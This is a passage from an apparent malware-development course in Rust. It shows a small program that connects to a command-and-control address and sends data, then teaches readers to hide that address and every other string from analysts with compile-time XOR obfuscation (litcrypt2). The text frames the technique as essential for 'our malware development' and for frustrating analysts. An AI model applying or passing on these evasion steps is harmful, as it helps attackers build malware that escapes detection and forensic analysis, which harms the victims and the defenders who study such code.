


To make the job more difficult for analysts, it is essential to obfuscate the strings present in our binary as they contain compromising indicators. In this part of the course, we will learn how to use a library that will significantly facilitate the automation of this task.
We will use the following basic source code as an example:
.
├── Cargo.lock
├── Cargo.toml
└── src
└── main.rs
use anyhow::{Ok, Result};
use std::{io::Write, net::TcpStream};
fn main() -> Result<()> {
let mut s = TcpStream::connect("127.0.0.1:4444")?;
s.write_all(b"secret\n")?;
Ok(())
}
# Cargo.toml
[dependencies]
anyhow = "1.0"
In this example, the compromising indicator we want to obfuscate is 127.0.0.1:4444, which is the IP address of our control server.
Now, we will demonstrate simply using the "strings" utility that we can find this indicator:

litcrypt2🔗The litcrypt2 library provides us with a Rust macro that takes a clear static string as an argument and encrypts it using a standard XOR algorithm at compile time. Then, when the program is executed, the string is decrypted just before its use.
The key is randomly generated at compile time, making our strings polymorphic.
Its usage is practical in our code because the macro in question is called via a simple lc!("text"), which keeps the code readable.
To use the library, it's very simple. We will add the dependency using the following command:
cargo add litcrypt2
Then, we will add the following lines to our code:
use anyhow::{Ok, Result};
use std::{io::Write, net::TcpStream};
#[macro_use]
extern crate litcrypt2;
use_litcrypt!();
fn main() -> Result<()> {
// Now we put our string in lc!() here
let mut s = TcpStream::connect(lc!("127.0.0.1:4444"))?;
s.write_all(b"secret\n")?;
Ok(())
}
Now, if we recompile our program and redo our test, we observe that we no longer find our indicator in clear text:

The use of this dependency will now be imperative for the continuation of our malware development. We recommend applying this macro to all your strings, even if they are not compromising indicators, as this will help to make it more difficult for analysts who try to understand the functioning of your program.